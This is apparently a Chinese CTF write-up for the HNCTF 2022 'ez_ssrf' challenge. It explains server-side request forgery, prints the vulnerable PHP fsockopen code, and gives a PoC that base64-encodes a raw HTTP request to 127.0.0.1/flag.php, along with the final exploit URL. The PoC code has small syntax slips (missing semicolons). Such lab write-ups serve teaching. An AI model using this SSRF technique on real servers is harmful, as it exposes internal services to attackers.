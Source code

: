 @[TOC](文章目录)

# 一、前言
今天在打CTF的时候碰到了一道有关ssrf漏洞的题，以前做的也不多，今天就来记录一下
# 二、相关知识
先来简单的介绍一下ssrf漏洞<br />
ssrf中文名叫做`服务端请求伪造`<br />
正常的处理请求过程是：用户发送请求-->服务端处理请求-->服务端像客户端返回请求<br />
该漏洞产生的原因是在第一步的时候，发送一个恶意url的请求，这个url指令是让服务器访问内部资源，当服务端处理这个恶意的请求后，就会将内部资源的结果发送给客户端<br />
# 三、题目复现
## 1.题目名称
[HNCTF 2022 WEEK2]ez_ssrf
## 2.解题过程
先用dirsearch扫描一下
![img.png](pics/img_1.png)
发现了/flag.php这个目录，访问一下这个目录
![img.png](pics/img.png)
这句话就暗示了在本地使用<br />
另外题目上有提示，拼接一下路径index.php。<br />
得到本题的php源码
```
<?php

highlight_file(__FILE__);
error_reporting(0);

$data=base64_decode($_GET['data']);
$host=$_GET['host'];
$port=$_GET['port'];

$fp=fsockopen($host,intval($port),$error,$errstr,30);
if(!$fp) {
die();
}
else {
fwrite($fp,$data);
while(!feof($data))
{
echo fgets($fp,128);
}
fclose($fp);
}
```
`fsockopen函数`的作用就是打开一个网址，此时ssrf漏洞已经显现出来了<br />
我们就开始构造POC吧<br />
记住POC几个必须有的参数：connection,host
```declarative
<?php
$out = "GET /flag.php HTTP/1.1\r\n"
$out .= "HOST: 127.0.0.1\r\n"
$out .= "Connection:close\r\n"
echo base64_encode($out)
?>
```
GET后面的HTTP/1.1表示HTTP协议的版本,`\r\n`表示换行<br />
`Connection:close`表示将连接关闭。在HTTP/1.1协议中，每一段连接都会保证keep-alive,以保证可以复用。但我们这里只需要执行请求后，关闭就好<br />
`.=`表示将字符串拼接运算符<br />
举一个例子
```declarative
$a = "hello";
$a .= "world";
echo $a;    //输出hello world
```
运行一下，得出data的参数值，随后构造URL为<br />
`/index.php?host=127.0.0.1&port=80&data=R0VUIC9mbGFnLnBocCBIVFRQLzEuMQ0KSG9zdDogMTI3LjAuMC4xDQpDb25uZWN0aW9uOiBDbG9zZQ0KDQo=`
